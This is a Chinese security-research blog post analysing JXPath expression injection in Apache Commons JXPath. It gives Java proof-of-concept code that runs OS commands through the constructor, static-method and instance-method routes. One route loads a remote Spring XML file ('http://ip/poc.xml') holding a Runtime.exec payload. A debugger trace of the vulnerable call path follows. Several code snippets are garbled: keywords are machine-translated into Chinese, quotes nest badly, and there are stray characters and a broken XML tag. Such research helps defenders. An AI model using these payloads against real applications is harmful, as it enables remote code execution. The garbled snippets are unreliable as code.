





# jxpath表达式注入漏洞研究-先知社区

> **来源**: https://xz.aliyun.com/news/16685  
> **文章ID**: 16685

---

# jxpath表达式注入漏洞研究

## 前言

以前从来没有了解过jxpath表达式，最近正好遇到了，于是来学习一波

## jxpath表达式基础语法

找到了官方手册

<https://commons.apache.org/proper/commons-jxpath/users-guide.html#>

我们只学习一些比较可能恶意利用的语法

### JavaBean 属性访问

JXPath 可用于访问 JavaBean 的属性。

```
公共类Employee {公共String getFirstName ( ){ ... } } Employee emp = new Employee ( ) ; ... JXPathContext context = JXPathContext.newContext ( emp ); String fName = ( String ) context.getValue ( " firstName" ) ;
```

### 嵌套 Bean 属性访问

JXPath 可以遍历对象图：

```
公共类Employee {公共地址getHomeAddress (){ ... } }公共类地址{公共字符串getStreetNumber (){ ... } } Employee emp = new Employee (); ... JXPathContext context = JXPathContext.newContext ( emp ) ; String sNumber = ( String ) context.getValue ( " homeAddress /streetNumber" ) ;
```

### 构造对象

Using the standard extension functions, you can call methods on objects, static methods on classes and create objects using any constructors. All class names should be fully qualified.

Here's how you can create new objects:

```
Book book = (Book)context.
   getValue("com.myco.books.Book.new('John Updike')");
```

### 调用静态方法

Here's how you can call static methods:

```
Book book = (Book)context.
   getValue("com.myco.books.Book.getBestBook('John Updike')");
```

### 调用一般方法

Here's how you can call regular methods:

```
String firstName = (String)context.
   getValue("getAuthorsFirstName($book)");
```

As you can see, the target of the method is specified as the first parameter of the function.

## 表达式恶意利用

### 通过构造方法

这个大家应该已经不陌生了

我们先写个例子

```
import org.apache.commons.jxpath.JXPathContext;
public class JXpathDemo {
    public static void main(String[] args) {
        try{ d
            JXPathContext context = JXPathContext.newContext(null);
            String key = (String)  context.getValue("User.new("tom")");
            System.out.println(key);
        }catch (Exception exception){
            exception.printStackTrace();
        }
    }
}
```

User类

```
public class User {
    public String name;
    public User(String name) {
        this.name=name;
        System.out.println("gouzff");
    }

    public String getName() {
        System.out.println("getter");
        return name;
    }

    public void setName(String name) {
        System.out.println("setter");
        this.name = name;
    }
}
```



可以看到调用构造函数成功，我们这里使用

```
org.springframework.context.support.ClassPathXmlApplicationContext
```

来测试

首先准备一个xml文件

```
<?xml version="1.0" encoding="UTF-8"?>
<beans xmlns="http://www.springframework.org/schema/beans"
       xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
       xsi:schemaLocation="http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
    <bean id="evil" class="java.lang.String">
        <constructor-arg value="#{T(Runtime).getRuntime().exec('calc')}"/>
    </bean>

</bean
```

POC

```
import org.apache.commons.jxpath.JXPathContext;


public class JXpathDemo {
    public static void main(String[] args) {
        try{
            JXPathContext context = JXPathContext.newContext(null);
            String key = (String) context.getValue("org.springframework.context.support.ClassPathXmlApplicationContext.new("http://ip/poc.xml")");
            System.out.println(key);
        }catch (Exception exception){
            exception.printStackTrace();
        }
    }
}
```

运行结果如下



### 调用静态方法

一开始是这样写了个例子

```
import org.apache.commons.jxpath.JXPathContext;
public class JXpathDemo {
    public static void main(String[] args) {
        try{
            JXPathContext context = JXPathContext.newContext(null);
            String key = (String) context.getValue("java.lang.Runtime.getRuntime().exec('calc')");
            System.out.println(key);
        }catch (Exception exception){
            exception.printStackTrace();
        }
    }
}
```

但是不行，因为exec不是静态方法，所以

然后也还没有想到通过静态方法来执行恶意命令的，这里就自己写一个

```
import java.io.IOException;

public class Static {
    public Static() {
    }

    public static Process exec(String cmd) throws IOException {
        return Runtime.getRuntime().exec(cmd);
    }
}
```

POC

```
import org.apache.commons.jxpath.JXPathContext;
public class JXpathDemo {
    public static void main(String[] args) {
        try{
            JXPathContext context = JXPathContext.newContext(null);
            String key = (String) context.getValue("Static.exec('calc')");
            System.out.println(key);
        }catch (Exception exception){
            exception.printStackTrace();
        }
    }
}
```



### 调用一般方法

这个就很多利用了，比如我们的Runtime

按照它给出的例子可以这样

POC

```
import org.apache.commons.jxpath.JXPathContext;
public class JXpathDemo {
    public static void main(String[] args) {
        try{
            JXPathContext context = JXPathContext.newContext(null);
            String key = (String) context.getValue("exec(java.lang.Runtime.getRuntime(),'calc')");
            System.out.println(key);
        }catch (Exception exception){
            exception.printStackTrace();
        }
    }
}
```



## 调用过程调试分析

调用栈如下

```
getFunction:118, PackageFunctions (org.apache.commons.jxpath)
getFunction:753, JXPathContextReferenceImpl (org.apache.commons.jxpath.ri)
getFunction:140, RootContext (org.apache.commons.jxpath.ri.axes)
computeValue:96, ExtensionFunction (org.apache.commons.jxpath.ri.compiler)
compute:84, ExtensionFunction (org.apache.commons.jxpath.ri.compiler)
computeValue:92, ExtensionFunction (org.apache.commons.jxpath.ri.compiler)
getValue:353, JXPathContextReferenceImpl (org.apache.commons.jxpath.ri)
getValue:313, JXPathContextReferenceImpl (org.apache.commons.jxpath.ri)
main:6, JXpathDemo
```

来到重点方法

```
public Function getFunction(String namespace, String name, Object[] parameters) {
        if ((namespace != null || this.namespace == null) && (namespace == null || namespace.equals(this.namespace))) {
            if (parameters == null) {
                parameters = EMPTY_ARRAY;
            }

            if (parameters.length >= 1) {
                Object target = TypeUtils.convert(parameters[0], class$java$lang$Object == null ? (class$java$lang$Object = class$("java.lang.Object")) : class$java$lang$Object);
                Method method;
                if (target != null) {
                    method = MethodLookupUtils.lookupMethod(target.getClass(), name, parameters);
                    if (method != null) {
                        return new MethodFunction(method);
                    }

                    if (target instanceof NodeSet) {
                        target = ((NodeSet)target).getPointers();
                    }

                    method = MethodLookupUtils.lookupMethod(target.getClass(), name, parameters);
                    if (method != null) {
                        return new MethodFunction(method);
                    }

                    if (target instanceof Collection) {
                        Iterator iter = ((Collection)target).iterator();
                        if (iter.hasNext()) {
                            target = iter.next();
                            if (target instanceof Pointer) {
                                target = ((Pointer)target).getValue();
                            }
                        } else {
                            target = null;
                        }
                    }
                }

                if (target != null) {
                    method = MethodLookupUtils.lookupMethod(target.getClass(), name, parameters);
                    if (method != null) {
                        return new MethodFunction(method);
                    }
                }
            }

            String fullName = this.classPrefix + name;
            int inx = fullName.lastIndexOf(46);
            if (inx == -1) {
                return null;
            } else {
                String className = fullName.substring(0, inx);
                String methodName = fullName.substring(inx + 1);

                Class functionClass;
                try {
                    functionClass = Class.forName(className);
                } catch (ClassNotFoundException var10) {
                    throw new JXPathException("Cannot invoke extension function " + (namespace != null ? namespace + ":" + name : name), var10);
                }

                if (methodName.equals("new")) {
                    Constructor constructor = MethodLookupUtils.lookupConstructor(functionClass, parameters);
                    if (constructor != null) {
                        return new ConstructorFunction(constructor);
                    }
                } else {
                    Method method = MethodLookupUtils.lookupStaticMethod(functionClass, methodName, parameters);
                    if (method != null) {
                        return new MethodFunction(method);
                    }
                }

                return null;
            }
        } else {
            return null;
        }
    }
}
```

可以看到这里有我们主要的逻辑

首先获取基本的信息

* String namespace: 该函数的命名空间（可能为空）。
* String name: 方法名。
* Object[] parameters: 方法的参数列表。

然后接着会

* **检查命名空间**
* **处理参数**
* **查找实例方法**

```
method = MethodLookupUtils.lookupMethod(target.getClass(), name, parameters);
```

这段代码就是在寻找我们的方法

然后回根据

```
if (methodName.equals("new")) {
                    Constructor constructor = MethodLookupUtils.lookupConstructor(functionClass, parameters);
else {
                    Method method = MethodLookupUtils.lookupStaticMethod(functionClass, methodName, parameters);
```

查找静态方法或构造函数

之后会返回我们的方法

一路回到

```
public Object computeValue(EvalContext context) {
    Object[] parameters = null;
    if (args != null) {
        parameters = new Object[args.length];
        for (int i = 0; i < args.length; i++) {
            parameters[i] = convert(args[i].compute(context));
        }
    }

    Function function =
        context.getRootContext().getFunction(functionName, parameters);
    if (function == null) {
        throw new JXPathFunctionNotFoundException("No such function: "
                + functionName + Arrays.asList(parameters));
    }
    Object result = function.invoke(context, parameters);
    return result instanceof NodeSet ? new NodeSetContext(context,
            (NodeSet) result) : result;
}
```

重点会function.invoke(context, parameters)

调用invoke方法

```
public Object invoke(ExpressionContext context, Object[] parameters) {
    try {
        Object target;
        Object[] args;
        if (Modifier.isStatic(method.getModifiers())) {
            target = null;
            if (parameters == null) {
                parameters = EMPTY_ARRAY;
            }
            int pi = 0;
            Class[] types = method.getParameterTypes();
            if (types.length >= 1
                && ExpressionContext.class.isAssignableFrom(types[0])) {
                pi = 1;
            }
            args = new Object[parameters.length + pi];
            if (pi == 1) {
                args[0] = context;
            }
            for (int i = 0; i < parameters.length; i++) {
                args[i + pi] =
                    TypeUtils.convert(parameters[i], types[i + pi]);
            }
        }
        else {
            int pi = 0;
            Class[] types = method.getParameterTypes();
            if (types.length >= 1
                && ExpressionContext.class.isAssignableFrom(types[0])) {
                pi = 1;
            }
            target =
                TypeUtils.convert(
                    parameters[0],
                    method.getDeclaringClass());
            args = new Object[parameters.length - 1 + pi];
            if (pi == 1) {
                args[0] = context;
            }
            for (int i = 1; i < parameters.length; i++) {
                args[pi + i - 1] =
                    TypeUtils.convert(parameters[i], types[i + pi - 1]);
            }
        }

        return method.invoke(target, args);
    }
    catch (Throwable ex) {
        if (ex instanceof InvocationTargetException) {
            ex = ((InvocationTargetException) ex).getTargetException();
        }
        throw new JXPathInvalidAccessException("Cannot invoke " + method,
                ex);
    }
}
```

判断我们的方法类型后调用方法对应的invoke方法



调用栈如下

```
exec:347, Runtime (java.lang)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:497, Method (java.lang.reflect)
invoke:93, MethodFunction (org.apache.commons.jxpath.functions)
computeValue:102, ExtensionFunction (org.apache.commons.jxpath.ri.compiler)
getValue:353, JXPathContextReferenceImpl (org.apache.commons.jxpath.ri)
getValue:313, JXPathContextReferenceImpl (org.apache.commons.jxpath.ri)
main:6, JXpathDemo
```
